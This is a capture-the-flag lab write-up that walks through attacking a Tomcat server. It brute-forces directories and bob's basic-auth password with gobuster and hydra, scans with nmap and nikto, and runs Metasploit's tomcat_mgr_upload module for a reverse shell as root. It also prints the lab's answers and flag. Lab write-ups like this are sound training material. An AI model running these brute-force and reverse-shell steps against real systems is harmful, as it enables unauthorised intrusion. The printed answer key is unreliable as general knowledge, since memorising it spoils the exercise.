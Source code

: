```BASH
gobuster dir -u "http://10.10.148.25/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
```
![image](https://github.com/user-attachments/assets/23f686c9-345a-47e5-83e2-01a4b5b4d991)
What directory can you find, that begins with a "g"?
<pre>/guidelines</pre>  

<span style="line-height:0.5;">&nbsp;</span>

Whose name can you find from this directory?  
![image](https://github.com/user-attachments/assets/a1c7ea0b-435f-4b45-90e3-9589637fd0f6)
<pre>bob</pre>

<span style="line-height:0.5;">&nbsp;</span>

What directory has basic authentication?
![image](https://github.com/user-attachments/assets/6864c34a-dcca-4f8a-95e4-15dd57a6fd76)
<pre>protected</pre>

<span style="line-height:0.5;">&nbsp;</span>

What is bob's password to the protected part of the website?
```BASH
sudo hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.148.25 http-get /protected
```
![image](https://github.com/user-attachments/assets/d00e7c3b-52a3-4fde-a52e-5034939784af)
<pre>bubbles</pre>

<span style="line-height:0.5;">&nbsp;</span>

What other port that serves a webs service is open on the machine?
```BASH
nmap 10.10.148.25
```
![image](https://github.com/user-attachments/assets/b14ccc4d-b4dc-4c5c-9d1d-fa0e4214e8d9)
<pre>1234</pre>

<span style="line-height:0.5;">&nbsp;</span>

What is the name and version of the software running on the port from question 5?
![image](https://github.com/user-attachments/assets/4725bf64-5644-4d03-bf20-dd25d243aee4)
<pre>Apache Tomcat/7.0.88</pre>

<span style="line-height:0.5;">&nbsp;</span>

Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.
```BASH
nikto -h http://10.10.148.25:1234/manager/html -id bob:bubbles
```
![image](https://github.com/user-attachments/assets/c52c2ca9-debf-48b2-97c7-247a09b11e88)
<pre>5</pre>

<span style="line-height:0.5;">&nbsp;</span>

What version of Apache-Coyote is this service using?
<pre>1.1</pre>

<span style="line-height:0.5;">&nbsp;</span>

What is the server version?
```BASH
nikto -h http://10.10.148.25:80 -id bob:bubbles
```
![image](https://github.com/user-attachments/assets/b3813caf-2e5d-4c14-aa28-4a2572d6244a)
<pre>Apache/2.4.18</pre>

<span style="line-height:0.5;">&nbsp;</span>

[Metasploit](https://www.metasploit.com/) can be used to exploit Tomcat Manager vulnerabilities using the tomcat_mgr_upload exploit module.

Run Metasploit:
```BASH
msfconsole
```

Use exploit module:
```BASH
use exploit/multi/http/tomcat_mgr_upload
```

Set required options:
```BASH
set RHOSTS 10.10.148.25
set LHOST 10.10.168.110
set RPORT 1234
set LPORT 4444
set HttpPassword bubbles
set HttpUsername bob
```

Use run command
```BASH
run
```
![image](https://github.com/user-attachments/assets/6a2e44af-f51c-428b-92f1-0102727b9083)

What user did you get a shell as?
![image](https://github.com/user-attachments/assets/acef8c06-b490-4770-a858-57f3e6d61995)
<pre>root</pre>

What flag is found in the root directory?
![image](https://github.com/user-attachments/assets/07afa7ce-89c5-4e39-9836-a0c178651576)
<pre>ff1fc4a81affcc7688cf89ae7dc6e0e1</pre>


